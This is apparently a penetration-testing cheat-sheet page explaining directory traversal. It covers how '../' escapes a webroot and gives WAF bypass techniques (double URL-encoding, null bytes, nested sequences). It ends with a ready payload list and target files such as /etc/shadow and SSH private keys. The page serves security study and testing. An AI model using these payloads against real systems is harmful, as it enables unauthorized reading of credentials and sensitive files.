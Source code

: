 ```yaml
---
description: ../
---
```


# Directory Traversal

Directory Traversal is a vulnerability that can be used to view files beyond the document root / webroot of the website.

{% hint style="info" %}
It should be noted that directory traversal can result in **either** an arbitrary file read OR local file inclusion (LFI).

The difference between the two is that **arbitrary read is only used to READ files and CANNOT execute scripts**. LFI on the other hand, **allows for execution**.

{% endhint %}

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

## ../

In terminals of a Linux or Windows server, `..` means '1 level up', so `cd ..` means 'change directory to one level up'. Appending multiple of these strings together to go up multiple directories, like `cd ../../../` would go up 3 directories.

Each `../` represents an **action**. If a server fails to parse the filename properly, then one can key in `../../../etc/passwd` to escape the webroot folder, and then load `/etc/passwd`.

Additionally, it's important to note that local files on a system can be processed as a URL using the `file://` wrapper. Other wrappers exist, like `gopher://` and `php://` too, and depending on the application, can allow for reading of files.

```bash
http://example.com?url=http://google.com

# file:// wrapper
http://example.com?url=file://../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1694).png" alt=""><figcaption></figcaption></figure>

Naturally, this is dangerous since it gives attackers access to files that could have sensitive information (like SSH private keys).

## Bypassing WAFs

Some applications have WAFs to detect attempts to abuse directory traversal, which still can be bypassed via various encoding:

### URL-Encoding

One can recursively encoding a payload:

> URL-Encoding, otherwise known as Percent-Encoding, is a method to encode arbitrary data in a Uniform Resource Identifier (URI) using only the limited ASCII characters legal within a URI

By URL-encodng it, the WAF may fail to pick up on the payload in some cases. This works because most applications takes user input and URL-decodes it once to view what are the actions required. 

By encoding it twice or thrice, it is possible to bypass a weak WAF since it may only be checking for `../` characters. Once bypassed, the web application still understands the unencoded payload and processes it.

```bash
# not url-encoded
../../../../../etc/passwd

#url encoded
..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

### Null Byte

If there is a check on the **file extension** of files read, then one can truncate the rest of the query appending a **null byte**.

`%00` represents a single byte of data meaning NULL. This terminates the query and causes the extension portion to be left out from processing. However, it's still technically present as text for the WAF to process.

```bash
# .png still present, bypass WAF
../../../../etc/passwd%00.png
```

### Nested Sequences

Sometimes, a website could block `../` character sequences. In this case, one can use  `....//`, which is equals to `../../`.

### Downloading Files

Sometimes, we can access certain and download files and even binaries via directory traversal. We can check what's by looking into the /proc directory and install the files via curl and the -o flag. Retired from HTB is a machine that uses this, and we can download a binary that is vulnerbale to a ROP chaining vulnerability that would give us an initial shell.&#x20;

## Testing

Here are some common payloads that can be used to bypass basic WAFs, and world-readable files on Windows and Linux machines to test if the exploit works:

<pre class="language-bash"><code class="lang-bash"><strong># common payloads
</strong>../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
<strong>
</strong><strong># for Linux
</strong>/etc/passwd
/etc/hosts
/etc/shadow # if we have privileges
/home/user/.ssh/id_rsa # if we need keys

# for Windows
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err
</code></pre>
